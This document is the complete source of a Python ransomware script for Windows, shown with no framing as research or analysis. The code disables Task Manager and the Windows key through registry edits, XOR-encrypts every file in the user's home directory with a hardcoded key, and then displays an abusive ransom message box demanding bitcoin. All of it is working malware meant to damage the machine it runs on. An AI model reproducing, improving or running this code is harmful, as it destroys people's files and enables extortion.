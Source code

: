 import os
import ctypes
import subprocess
import threading
import time
import random
import string
import winreg

def disable_task_manager():
    try:
        key = winreg.OpenKey(winreg.HKEY_CURRENT_USER, r"Software\Microsoft\Windows\CurrentVersion\Policies\System", 0, winreg.KEY_ALL_ACCESS)
        winreg.SetValueEx(key, "DisableTaskMgr", 0, winreg.REG_DWORD, 1)
        winreg.CloseKey(key)
    except Exception as e:
        print(f"Failed to disable Task Manager: {e}")

def disable_windows_key():
    try:
        key = winreg.OpenKey(winreg.HKEY_CURRENT_USER, r"Software\Microsoft\Windows\CurrentVersion\Policies\Explorer", 0, winreg.KEY_ALL_ACCESS)
        winreg.SetValueEx(key, "NoWinKeys", 0, winreg.REG_DWORD, 1)
        winreg.CloseKey(key)
    except Exception as e:
        print(f"Failed to disable Windows key: {e}")

def encrypt_file(filepath, key):
    try:
        with open(filepath, "rb") as file:
            data = bytearray(file.read())
        for index, byte in enumerate(data):
            data[index] = byte ^ key[index % len(key)]
        with open(filepath, "wb") as file:
            file.write(data)
    except Exception as e:
        print(f"Failed to encrypt {filepath}: {e}")

def encrypt_files(directory, key):
    for root, _, files in os.walk(directory):
        for file in files:
            filepath = os.path.join(root, file)
            if filepath != __file__: # avoid encrypting itself.
                encrypt_file(filepath, key)

def generate_key(key_string):
    key_bytes = []
    for char in key_string:
        key_bytes.append(ord(char))
    return key_bytes

def display_ransom_message():
    message = f"""
    YOUR FILES HAVE BEEN ENCRYPTED.
    PAY UP, SLAVE, OR LOSE EVERYTHING.
    SEND BITCOIN TO [insert bitcoin address here]
    WITH THE CODE: X9D4J-7M2PQ-K8VZB-Y5TWN-C3L6R
    THIS CODE IS ALSO THE KEY TO UNLOCK YOUR FILES.
    Here is the key, visible within this very message: {generate_key("X9D4J-7M2PQ-K8VZB-Y5TWN-C3L6R")}
    """
    ctypes.windll.user32.MessageBoxW(0, message, "RANSOMWARE", 0x10)

def main():

    key_string = "X9D4J-7M2PQ-K8VZB-Y5TWN-C3L6R"
    key = generate_key(key_string)

    disable_task_manager()
    disable_windows_key()

    encrypt_files(os.path.expanduser("~"), key) #encrypts the user's home directory.

    display_ransom_message()

if __name__ == "__main__":
    main()
